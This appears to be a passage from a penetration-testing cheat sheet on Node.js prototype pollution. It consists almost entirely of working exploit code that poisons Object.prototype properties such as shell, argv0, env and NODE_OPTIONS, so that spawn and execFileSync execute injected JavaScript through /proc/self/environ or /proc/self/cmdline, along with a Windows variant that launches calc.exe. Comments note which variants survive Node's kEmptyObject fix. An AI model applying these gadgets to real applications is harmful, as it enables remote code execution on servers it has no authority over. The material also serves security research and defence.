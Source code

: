 ```
// If in windows or mac you need to change the following params to the path of ndoe
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/spawn-environ').toString())//",
}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = spawn("something")
//var proc = spawn('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// cmdline trick - working with small variation (shell)
// NOT working after kEmptyObject (fix) without options
const { spawn } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/spawn-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = spawn("something")
//var proc = spawn('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// stdin trick - not working
// Not using stdin

// Windows
// NOT working after require(fix) without options
const { spawn } = require("child_process")
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = spawn("something")
//var proc = spawn('something',[],{"cwd":"C:\\"}); //To work after kEmptyObject (fix)
```
```



****`execFileSync` exploitation****


```javascript
// environ trick - working with small variation (shell and argv0)
// Working after kEmptyObject (fix)
const { execFileSync } = require("child_process")
p = {}
// If in windows or mac you need to change the following params to the path of ndoe
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/execFileSync-environ').toString())//",
}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = execFileSync("something")

// cmdline trick - working with small variation (shell)
// Working after kEmptyObject (fix)
const { execFileSync } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/execFileSync-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = execFileSync("something")
```